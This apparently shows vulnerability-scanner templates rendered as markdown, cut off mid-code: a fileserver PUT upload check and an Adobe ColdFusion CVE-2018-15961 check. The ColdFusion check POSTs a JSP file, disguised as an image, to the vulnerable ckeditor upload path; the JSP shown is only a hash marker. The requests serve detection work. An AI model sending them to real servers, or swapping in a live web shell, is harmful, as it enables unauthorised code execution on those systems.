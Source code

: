 ### Step - 1

```
PUT /fileserver/test.txt HTTP/1.1
Host: {{Hostname}}

{{randstr}}

```

### Step - 2

```
GET /fileserver/test.txt HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - dsl**

- dsl
  1. status_code_1==204
  2. status_code_2==200
  3. contains((body_2), '{{randstr}}')
- condition - and

---

# Adobe ColdFusion - Unrestricted File Upload Remote Code Execution

## Description

- Adobe ColdFusion versions July 12 release (2018.0.0.310739), Update 6 and earlier, and Update 14 and earlier have an unrestricted file upload vulnerability. Successful exploitation could lead to arbitrary code execution.
- severity - critical
- tags - cve,cve2018,adobe,rce,coldfusion,fileupload,kev,intrusive

## Requests

### Step - 1

```
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/upload.cfm HTTP/1.1
Host: {{Hostname}}
Content-Type: multipart/form-data; boundary=---------------------------24464570528145

-----------------------------24464570528145
Content-Disposition: form-data; name="file"; filename="{{randstr}}.jsp"
Content-Type: image/jpeg

<%@ page import="java.util.*,java.io.*"%>
<%@ page import="java.security.MessageDigest"%>
<%
String cve = "CVE-2018-15961";
MessageDigest alg = MessageDigest.getInstance("MD5");
alg.reset();
alg.update(cve.getBytes());
byte[] digest = alg.digest();
StringBuffer hashedpasswd = new StringBuffer();
String hx;
```